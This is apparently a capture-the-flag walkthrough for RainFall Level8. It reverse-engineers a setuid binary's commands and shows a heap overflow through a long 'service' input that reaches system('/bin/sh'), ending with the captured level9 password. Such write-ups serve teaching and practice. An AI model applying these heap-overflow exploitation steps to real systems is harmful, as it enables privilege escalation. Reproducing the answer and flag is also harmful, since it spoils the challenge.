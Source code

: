 # Level8

## Objective

The goal of Level 9 is to escalate from `level8` to `level9` by abusing how the `level8` binary manages heap allocations. By carefully using the available commands (`auth`, `reset`, `service`, and `login`), we can trigger the program to call `system("/bin/sh")` and gain a shell.

---

## Step 1: Examine the Binary

After switching to `level8`
Running the binary:

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
hello
(nil), (nil)
```

when we use ltrace we can see a printf()
```bash
printf(%p, %p\n, (nil), (nil)(nil), (nil)) = 14;
```

Input is read with `fgets()`.

then we can try to use get variables,

```bash
(gdb) info variables
All defined variables:
Non-debugging symbols:

0x08049aac  auth
0x08049ab0  service

```
Here we can see that there's two variables and theirs adresses. 
The printf  prints two pointers `(auth, service)`, both initially `nil`.
they're read by fgets and stocked in locol memory at 0x20%esp
---

## Step 2: Reverse Engineer the Commands

Disassembly of `main()` reveals 4 comparaisons to adresses that can be read like this (this is the first one) :

```bash
0x080485b5 <+81>:	je     0x804872c <main+456>
   0x080485bb <+87>:	lea    0x20(%esp),%eax
   0x080485bf <+91>:	mov    %eax,%edx
   0x080485c1 <+93>:	mov    $0x8048819,%eax
   0x080485c6 <+98>:	mov    $0x5,%ecx
   0x080485cb <+103>:	mov    %edx,%esi
   0x080485cd <+105>:	mov    %eax,%edi
   0x080485cf <+107>:	repz cmpsb %es:(%edi),%ds:(%esi)


```
<+87><+91>The part of the main says that 0x20(%esp) refers to fgets() (stdin), then this address is copied in EDX
<+93>After that we load 0x8048819 (using gdb x/s we read `auth` for this address) in EAX,
<+98>ECX is set to 5 (its the number max of caracter comparisons).
<+103><+105> setting registers for cmpsb, ESI is the entry, EDI is the auth string.
<+107> Is similar to strncmp() function, it comp byte by byte the pointed string ESI (input user) and the EDI one ("auth")

Its done for four string and each on them has functionsstarting if the comparison is good.

* `auth <data>` → calls `malloc(4)` and `strcpy()` into the global `auth` pointer.
> Here an object is created and stockes the stdin 
* `reset` → frees the `auth` pointer.
* `service <data>` → calls `strdup()` and copies into the global `service` pointer.
* `login` → if `auth[32] != 0`, it calls `system("/bin/sh")`. Otherwise, it calls `fwrite()`.
> Checks is there's somthing at the ofset, if so it runs the exec syscall.

Thus, the game plan is to get `auth[32]` set to something non-zero.

---

## Step 3: Heap Behavior

Heap allocations are sequential in memory. Testing shows:

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```

Here `auth` is at `0x804a008` and `service` is exactly 16 bytes later. With padding, we can arrange things so that writing into `service` overflows into `auth[32]`.

---

## Step 4: Exploit Strategy

**SolutionSingle `service` overflow:**

* Create `auth` → allocates 4 bytes.
* Create `service` with a payload long enough to cover the 16-byte padding and reach `auth+32`.

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
serviceabcdefgehijklmno
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

**End of Level8 Walkthrough**
